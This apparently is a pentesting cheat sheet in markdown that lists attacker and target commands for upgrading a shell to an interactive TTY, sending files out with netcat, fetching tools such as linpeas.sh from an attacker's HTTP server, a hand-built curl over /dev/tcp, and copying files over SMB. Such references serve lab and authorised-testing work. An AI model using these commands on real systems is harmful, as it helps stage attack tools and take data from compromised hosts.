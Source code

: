 ## INTERACTIVE SHELL
target: `python3 -c 'import pty;pty.spawn("/bin/bash")'`, hit <kbd>CTRL</kbd> + <kbd>z</kbd>\
attacker: `stty raw -echo; fg`, hit <kbd>Enter</kbd>, <kbd>Enter</kbd>
### optional
target: `export TERM=xterm`\
attacker: `stty -a` shows rows `r` and collumns `c`\
target: `stty rows r cols c`
## NETCAT
### send data

reciever:
```bash
nc -l -p 1234 > FILE.NAME
```
(sometimes netcat instead of nc!)


sender:
```bash
nc -w 3 DESTINATION 1234 < FILE.NAME
```

## TRANSFER DATA/FILES
### send data via HTTP Server
sender:
```bash
python -m SimpleHTTPServer 8083
python3 -m http.server 8083
```
reciever:
```bash
curl IPADRESSSENDER:8083/FILE.NAME
curl 10.10.IP.IP:8083/linpeas.sh > lp.sh
wget IPADRESSSENDER:8083/FILE.NAME
```
if curl is not installed, make your own!
```bash
$ function __curl() {
read proto server path <<<$(echo ${1//// })
DOC=/${path// //}
HOST=${server//:*}
PORT=${server//*:}
[[ x"${HOST}" == x"${PORT}" ]] && PORT=80
exec 3<>/dev/tcp/${HOST}/$PORT
echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
(while read line; do
 [[ "$line" == $'\r' ]] && break
done && cat) <&3
exec 3>&-
}
```
### send data via SMB Server (windows)
reciever:
```bash
python smbserver.py -smb2support -username guest -password guest share [TargetPath]
```
sender:
```powershell
net use x: \\[RecieverIP]\share /user:guest guest
cmd /c "copy [FileName] X:\"
```
